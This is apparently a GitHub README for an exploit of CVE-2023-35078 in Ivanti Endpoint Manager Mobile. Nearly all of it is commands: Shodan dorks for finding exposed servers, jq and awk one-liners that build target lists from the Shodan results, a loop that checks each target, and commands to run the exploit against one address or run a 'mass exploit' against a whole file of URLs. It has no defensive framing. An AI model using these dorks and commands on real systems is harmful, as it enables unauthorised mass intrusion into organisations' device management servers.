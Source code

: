 # CVE-2023-35078
Ivanti Endpoint Manager Mobile exploit <br/>

- Shodan dorks: <br/>
```
http.favicon.hash:362091310
```
```
http.favicon.hash:545827989
```
```
path=/mifs
```
Download the shodan json file and extract all IP addresses from it. You can do this with [shodan-parser](https://github.com/getdrive/POC/blob/main/2023/Ivanti%20Endpoint%20Manager%20Mobile%20(EPMM)/shodan-parser.py) or any other tool.

- Transform shodan json to _data_file_ <br/>
```
jq -cr 'select(.http.favicon.hash == 362091310) | [ if .ssl? then "https://" else "http://" end , (.ip_str) + ":" + (.port|tostring)] | add' shodan.json > data_file
```
```
jq -cr 'select(.http.favicon.hash == 545827989) | [ if .ssl? then "https://" else "http://" end , (.ip_str) + ":" + (.port|tostring)] | add' shodan.json > data_file
```
```
python3 shodan-parser.py -o temp_data_file shodan.json
```
```
awk '{print "https://"$0}' temp_data_file > data_file
```
- How to run a check. <br/>

   The format of the data_file should be as follows: **_http://ip_addr:port_** or **_https://ip_addr:port_** <br/> 
```
chmod +x check.sh; while read line; do ./check.sh $line; done < data_file
```
- Setup requirements <br/>
```
pip install -r requirements.txt
```
- Run exploit single address . <br/>
```
python exploit.py -u http://
```
- Run mass exploit . <br/>
```
python exploit.py -f urls.txt
```
